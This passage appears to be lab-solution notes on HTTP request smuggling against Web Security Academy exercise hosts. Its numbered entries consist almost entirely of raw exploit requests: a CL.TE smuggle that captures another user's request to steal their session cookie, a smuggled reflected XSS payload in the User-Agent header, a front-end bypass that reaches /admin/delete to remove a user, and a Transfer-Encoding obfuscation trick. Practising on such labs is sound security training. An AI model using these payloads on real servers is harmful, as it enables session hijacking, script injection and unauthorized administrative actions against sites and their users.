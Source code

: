 5. Get other user's request to steal cookie  
```
POST / HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 357
tRANSFER-ENCODING: chunked

0

POST /post/comment HTTP/1.1
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Cookie: session=N2dqf1wUAKs2U79D8Kb9d3ROkWblLydg
Content-Length: 814
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=nyDg9uHq32xSredK0gaIuHeyk21sESN8&postId=2&name=wad&email=rei%40gmail.com&website=https://kek.com&comment=LEL
```
6. Exploiting HTTP request smuggling to deliver reflected XSS  
```
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
tRANSFER-ENCODING: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
```
7. Exploiting HTTP requestprint smuggling to bypass front-end security controls, CL.TE vulnerability  
```
POST / HTTP/1.1
Host: 0a6f008e04ed8481c035778000dc0063.web-security-academy.net
Cookie: session=QjB6AgSHTuzJSZCHdc0al2SJSOtdc5bh
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
tRANSFER-ENCODING: chunked

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
### Bypasses
```
Transfer-Encoding: xchunked
```